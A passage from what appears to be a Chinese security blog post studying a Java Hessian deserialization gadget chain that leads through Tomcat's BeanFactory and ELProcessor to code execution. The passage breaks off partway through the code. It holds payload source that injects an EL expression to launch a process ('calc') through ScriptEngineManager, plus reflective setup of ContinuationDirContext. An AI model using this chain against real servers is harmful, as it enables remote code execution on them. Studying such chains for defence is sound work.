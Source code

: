```java
        }

        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
    }
```

### 没打通卡在了最后的EL表达式那里，其实发现后面类加载啥的和高版本jndi基本一样所以趁机来温习一下

先调试到BeanFactory的链子

首先obj拼接字符会触发对应的tostring方法，这个前面就遇到过了 

![image-20231205210401926](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231205210401926.png)

```java
package com.example.registry.data;

import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import org.apache.naming.ResourceRef;
import org.apache.naming.factory.BeanFactory;

import javax.naming.CannotProceedException;
import javax.naming.StringRefAddr;
import javax.naming.directory.DirContext;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class payload {
    public static void main(String[] args) throws Exception {




        //ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
//        resourceRef.add(new StringRefAddr("forceString", "a=eval"));
//        resourceRef.add(new StringRefAddr("a", "Runtime.getRuntime().exec(\"calc\")"));

        ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //这里就是对ResourceRef对象进行一个赋值，并且factorylocation为null

        resourceRef.add(new StringRefAddr("forceString", "x=eval"));
        resourceRef.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));



        Class<?> ccCl = Class.forName("javax.naming.spi.ContinuationDirContext");
        Constructor<?> ccCons = ccCl.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        ccCons.setAccessible(true);

        CannotProceedException cpe = new CannotProceedException();
        setFieldValue(cpe, "cause", null);
        setFieldValue(cpe, "stackTrace", null);

        cpe.setResolvedObj(resourceRef);
```